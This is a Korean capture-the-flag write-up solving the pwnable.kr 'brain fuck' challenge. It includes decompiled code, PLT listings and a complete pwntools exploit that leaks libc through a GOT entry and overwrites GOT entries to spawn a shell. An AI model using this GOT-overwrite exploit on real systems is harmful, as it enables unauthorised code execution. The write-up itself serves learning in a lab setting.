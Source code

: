 ```yaml
---
layout: post
title: ! "[pwnable.kr] brain fuck"
excerpt_separator: <!--more-->
comments : true
tags:
  - pwnable
  - brainfuck
  - memory
  - chaem
---
```


오늘은 `pwnable.kr` Rookiss의 첫번째 문제인 `brain fuck`문제를 풀어볼까해요!  
brainfuck은 memory leak과 관련되 문제입니다.  

<!--more-->

brainfuck이 실제 컴퓨터 프로그래밍 언어였네요! 신기신기*.*  
자세한 내용은 위키에서 확인하세용 ㅎㅎ  

```
[brainfuck위키](https://ko.wikipedia.org/wiki/%EB%B8%8C%EB%A0%88%EC%9D%B8%ED%8D%BD)  
```

우선, 바이너리의 보호기법을 확인해 보겠습니다.  
32bit 바이너리이고, canary와 nx가 걸려있네요~  

```
pwndbg> checksec
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/ubuntu/.pwntools-cache/update to 'never'.
[*] You have the latest version of Pwntools (3.12.0)
[*] '/home/ubuntu/pwnable_kr/brain/bf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

바이너리를 실행해보면, 다음과 같이 값을 입력받고 프로그램을 종료합니다.  

```
ubuntu@ubuntu:~$ nc pwnable.kr 9001
welcome to brainfuck testing system!!
type some brainfuck instructions except [ ]
aaa
```

```
ubuntu@ubuntu:~$ nc pwnable.kr 9001
welcome to brainfuck testing system!!
type some brainfuck instructions except [ ]
[]
[ and ] not supported.
```

[]를 입력해 보았더니, `[` 와 `]` 는 지원하지 않는다고 하네요.  

이렇게만 알 수 있는 것은 딱히 없어보이니, 바이너리를 분석해봅시다.  
main함수는 다음과 같습니다.  

```c

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@4
  int v4; // edx@4
  size_t i; // [sp+28h] [bp-40Ch]@1
  int v6; // [sp+2Ch] [bp-408h]@1
  int v7; // [sp+42Ch] [bp-8h]@1

  v7 = *MK_FP(__GS__, 20);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  p = (int)&tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(&v6, 0, 0x400u);
  fgets((char *)&v6, 1024, stdin);
  for ( i = 0; i < strlen((const char *)&v6); ++i )
    do_brainfuck(*((_BYTE *)&v6 + i));
  result = 0;
  v4 = *MK_FP(__GS__, 20) ^ v7;
  return result;
}

```

do_brainfuck 함수에서는 넘겨받은 글자를 아스키코드로 비교하여 실행하고 있습니다.  
ida로 보면, 각 문자들이 어떤 역할을 수행하는 지 알 수 있습니다.  

```c
int __cdecl do_brainfuck(char a1)
{
  int result; // eax@1
  _BYTE *v2; // ebx@7

  result = a1;
  switch ( a1 )
  {
    case '>':
      result = p++ + 1;
      break;
    case '<':
      result = p-- - 1;
      break;
    case '+':
      result = p;
      ++*(_BYTE *)p;
      break;
    case '-':
      result = p;
      --*(_BYTE *)p;
      break;
    case '.':
      result = putchar(*(_BYTE *)p);
      break;
    case ',':
      v2 = (_BYTE *)p;
      result = getchar();
      *v2 = result;
      break;
    case '[':
      result = puts("[ and ] not supported.");
      break;
    default:
      return result;
  }
  return result;
}
```

main함수에서 p는 tape 변수의 주소를 가리키는 값입니다. 따라서 우리는 do_brainfuck 함수에서 p를 원하는대로 조작할 수 있습니다.  
do_brainfuck함수를 보면 딱 memory leak을 할 수 있다는 것이 보인다고 하네요...:(
우선 tape의 주소는 다음과 같습니다.  

```
.bss:0804A0A0 tape
```

이제 어떻게 shell을 실행시킬 수 있는지 생각해 보아야 하는데요, >,<를 이용해 메모리 값을 변경할 수 있고, getchar(), putchar()와 같은 명령을 사용할 수 있다는 것을 이용해 봅시다.  
위에서 봤던 main함수에서 있는 memset과 fgets의 got를 조작하여 shell을 실행시킬 수 있을 것이라 예상됩니다.  
memset의 got를 gets로 조작하여 /bin/sh를 입력하고, fgets의 got를 system으로 조작하고, putchar의 got를 main으로 조작하여 putchar를 실행시키면 될 것 입니다.  
`objdump -S bf` 이 명령어를 이용하여 plt값들을 알 수 있습니다.  

```
Disassembly of section .plt:

08048430 <getchar@plt-0x10>:
 8048430:	ff 35 04 a0 04 08    	pushl  0x804a004
 8048436:	ff 25 08 a0 04 08    	jmp    *0x804a008
 804843c:	00 00                	add    %al,(%eax)
	...

08048440 <getchar@plt>:
 8048440:	ff 25 0c a0 04 08    	jmp    *0x804a00c
 8048446:	68 00 00 00 00       	push   $0x0
 804844b:	e9 e0 ff ff ff       	jmp    8048430 <_init+0x24>

08048450 <fgets@plt>:
 8048450:	ff 25 10 a0 04 08    	jmp    *0x804a010
 8048456:	68 08 00 00 00       	push   $0x8
 804845b:	e9 d0 ff ff ff       	jmp    8048430 <_init+0x24>

08048460 <__stack_chk_fail@plt>:
 8048460:	ff 25 14 a0 04 08    	jmp    *0x804a014
 8048466:	68 10 00 00 00       	push   $0x10
 804846b:	e9 c0 ff ff ff       	jmp    8048430 <_init+0x24>

08048470 <puts@plt>:
 8048470:	ff 25 18 a0 04 08    	jmp    *0x804a018
 8048476:	68 18 00 00 00       	push   $0x18
 804847b:	e9 b0 ff ff ff       	jmp    8048430 <_init+0x24>

08048480 <__gmon_start__@plt>:
 8048480:	ff 25 1c a0 04 08    	jmp    *0x804a01c
 8048486:	68 20 00 00 00       	push   $0x20
 804848b:	e9 a0 ff ff ff       	jmp    8048430 <_init+0x24>

08048490 <strlen@plt>:
 8048490:	ff 25 20 a0 04 08    	jmp    *0x804a020
 8048496:	68 28 00 00 00       	push   $0x28
 804849b:	e9 90 ff ff ff       	jmp    8048430 <_init+0x24>

080484a0 <__libc_start_main@plt>:
 80484a0:	ff 25 24 a0 04 08    	jmp    *0x804a024
 80484a6:	68 30 00 00 00       	push   $0x30
 80484ab:	e9 80 ff ff ff       	jmp    8048430 <_init+0x24>

080484b0 <setvbuf@plt>:
 80484b0:	ff 25 28 a0 04 08    	jmp    *0x804a028
 80484b6:	68 38 00 00 00       	push   $0x38
 80484bb:	e9 70 ff ff ff       	jmp    8048430 <_init+0x24>

080484c0 <memset@plt>:
 80484c0:	ff 25 2c a0 04 08    	jmp    *0x804a02c
 80484c6:	68 40 00 00 00       	push   $0x40
 80484cb:	e9 60 ff ff ff       	jmp    8048430 <_init+0x24>

080484d0 <putchar@plt>:
 80484d0:	ff 25 30 a0 04 08    	jmp    *0x804a030
 80484d6:	68 48 00 00 00       	push   $0x48
 80484db:	e9 50 ff ff ff       	jmp    8048430 <_init+0x24>
```

exploit은 다음과 같습니다.  

```python
from pwn import *

libc = ELF('./bf_libc.so')

s = remote('pwnable.kr', 9001)
s.recvline_startswith('type')

payload = '<' * (0x0804A0A0 - 0x0804A010)
payload += '.>' * 4 #read fget@plt address
payload += '<' * 4 #move to start of fget@plt
payload += ',>' * 4 #overwrite fget@plt to system()
payload += '>' * (0x0804A02C - 0x0804A014)
payload += ',>' * 4 #overwrite memset to gets
payload += ',>' * 4 #overwrite putchar to main
payload += '.' #execute main function

s.sendline(payload)

fgets_addr = s.recvn(4)[::-1].encode('hex')
system_addr = int(fgets_addr, 16) - libc.symbols['fgets'] + libc.symbols['system']
gets_addr = int(fgets_addr, 16) - libc.symbols['fgets'] + libc.symbols['gets']

s.send(p32(system_addr))
s.send(p32(gets_addr))
s.send(p32(0x08048671))
s.sendline('/bin/sh\00')
s.interactive()
```
